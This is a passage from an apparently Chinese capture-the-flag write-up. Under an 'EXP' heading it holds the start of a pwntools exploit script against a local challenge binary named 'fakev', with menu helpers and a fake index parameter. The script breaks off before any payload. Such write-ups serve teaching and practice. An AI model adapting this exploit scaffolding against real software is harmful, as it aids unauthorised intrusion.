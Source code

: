 然后`_FINISH`的位置：

`![](./overflow.png)

完成啦！

### 0x2 EXP

```python
#! /usr/bin/python
#-*- coding: utf-8 -*-
from pwn import *
 
context.terminal = ['tmux', 'splitw', '-h']
context(arch = 'amd64' , os = 'linux', log_level='debug')

def debug(p, cmd):
    gdb.attach(p, cmd)
    pause()

def open_file(p, idx, fake_idx=None):
    p.sendlineafter(':', '1')
    if fake_idx is not None:
        p.sendafter(':', fake_idx)
    else:
        p.sendlineafter(':', str(idx))


def read_content(p, idx):
    p.sendlineafter(':', '2')
    p.sendlineafter(':', str(idx))


def close_file(p):
    p.sendlineafter(':', '4')


p = process('./fakev')
libc = ELF('./libc.so.6')


for idx in range(1, 9):
    open_file(p, idx)
for idx in range(8):
```